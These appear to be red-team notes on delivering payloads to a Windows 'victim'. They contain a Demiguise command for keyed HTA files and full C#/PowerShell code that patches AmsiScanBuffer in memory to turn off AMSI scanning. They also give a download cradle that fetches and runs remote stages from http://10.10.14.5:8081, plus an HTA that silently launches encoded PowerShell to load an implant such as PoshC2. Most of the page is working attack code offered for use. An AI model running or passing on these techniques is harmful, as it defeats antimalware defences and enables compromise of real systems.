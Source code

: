 ```yaml
---
date: 2019-08-02
title: Payload Delivery Techniques
description: Notes for delivering payloads
categories: InitialCompromise
---
```


## Payload Delivery Techniques
Using a simple keying HTA payload, such as those created by the Demiguise tool from NCC can be useful in landing the second stage of a payload.

demiguise.py -k "environmentKey" -c "powershell.exe -nop -w 1 -enc ENC_PAYLOAD" -o hta.hta -p Outlook.Application

## Bypassing AMSI and Delivering Payloads
AMSI can be used to detect malicious code within a number of scripting engines such as the Windows Script Host, PowerShell and Office VBA macros to name a few. A number of techniques have been leveraged to disable AMSI in order to load our tooling within the environment. One technique which at the time of writing works to bypass AMSI leverages egg hunters to dynamically load the AmsiScanBuffer function and modify the return value to zero returning a clean buffer. This technique was discovered by Context IS - https://www.contextis.com/en/blog/amsi-bypass.

The following code has been slightly modified to perform a check to verify whether AMSI has been disabled:

```

Ref = (
"System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
"System.Runtime.InteropServices, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"
)

$Source = @"
using System;
using System.Runtime.InteropServices;

namespace AMSI {
    // Context code - https://www.contextis.com/en/blog/amsi-bypass
    public class Bypass {

        [DllImport("kernel32")]
        private static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        private static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        private static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        static void Main(string[] args) { }

        public static void Patch() {
            IntPtr hModule = LoadLibrary("amsi.dll");

            IntPtr dllCanUnloadNowAddress = GetProcAddress(hModule, "DllCanUnloadNow");

            byte[] egg = { };
            if (IntPtr.Size == 8) {
                egg = new byte[] {
                    0x4C, 0x8B, 0xDC,       // mov     r11,rsp
                    0x49, 0x89, 0x5B, 0x08, // mov     qword ptr [r11+8],rbx
                    0x49, 0x89, 0x6B, 0x10, // mov     qword ptr [r11+10h],rbp
                    0x49, 0x89, 0x73, 0x18, // mov     qword ptr [r11+18h],rsi
                    0x57,                   // push    rdi
                    0x41, 0x56,             // push    r14
                    0x41, 0x57,             // push    r15
                    0x48, 0x83, 0xEC, 0x70  // sub     rsp,70h
                };
            } else {
                egg = new byte[] {
                    0x8B, 0xFF,             // mov     edi,edi
                    0x55,                   // push    ebp
                    0x8B, 0xEC,             // mov     ebp,esp
                    0x83, 0xEC, 0x18,       // sub     esp,18h
                    0x53,                   // push    ebx
                    0x56                    // push    esi
                };
            }
            IntPtr address = FindAddress(dllCanUnloadNowAddress, egg);
	    // Logic for checking if bypass works
            if(address != IntPtr.Zero)
            {
                Console.WriteLine("0");
            } else { Console.WriteLine("-1"); }

            // Change the memory protection of the memory region
            // PAGE_READWRITE = 0x04
            uint oldProtectionBuffer = 0;
            VirtualProtect(address, (UIntPtr)2, 4, out oldProtectionBuffer);

            // Patch the function
            byte[] patch = { 0x31, 0xC0, 0xC3};
            Marshal.Copy(patch, 0, address, 3);

            // Reinitialise the memory protection of the memory region
            uint a = 0;
            VirtualProtect(address, (UIntPtr)2, oldProtectionBuffer, out a);
        }

        private static IntPtr FindAddress(IntPtr address, byte[] egg) {
            while (true) {
                int count = 0;

                while (true) {
                    address = IntPtr.Add(address, 1);
                    if (Marshal.ReadByte(address) == (byte)egg.GetValue(count)) {
                        count++;
                        if (count == egg.Length)
                            return IntPtr.Subtract(address, egg.Length - 1);
                    } else {
                        break;
                    }
                }
            }
        }
    }
}
"@

Add-Type -ReferencedAssemblies $Ref -TypeDefinition $Source -Language CSharp

```

The checks for AMSI and the delivery methods were taken from RastaMouse's AMSI blog posts:

https://rastamouse.me/2018/10/amsiscanbuffer-bypass---part-2/

The overall idea is to deliver a HTA to the victim in order to pull down the initial AMSI bypass and verify that AMSI is disabled in order to load the second larger implantm, for instance a PoshC2 implant.

The following cradle can be used to achieve the above process:

```
$s = 'iex ((new-object net.webclient).downloadstring("http://10.10.14.5:8081/p")); If([AMSI.Bypass]::Patch() -ne 0) { iex ((new-object net.webclient).downloadstring("http://10.10.14.5:8081/stage")) }'
```

To deliver this cradle, it should be encoded to avoid any issues which could occur if the input is processed.

```
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($s))
```

The encoded cradle can then be placed in a HTA file, such as that below which has been taken again from RastaMouse's AMSI bypass blog posts:

```
<html>
<script language="VBScript">
    Function var_func()
        Dim var_shell
        Set var_shell = CreateObject("Wscript.Shell")
        var_shell.run "powershell.exe -nop -w 1 -enc ENC_PAYLOAD", 0, true
    End Function

    var_func
    self.close
</script>
</html>
```

These methods would only be ideal if the environment does not perform adequate logging against PowerShell and the target runs PowerShell normally within the environment, otherwise these are clear indicators of compromise.

AMSI bypasses can also be implemented in a number of other scripting techniques, the following provides details on implementing these bypasses avoiding PowerShell.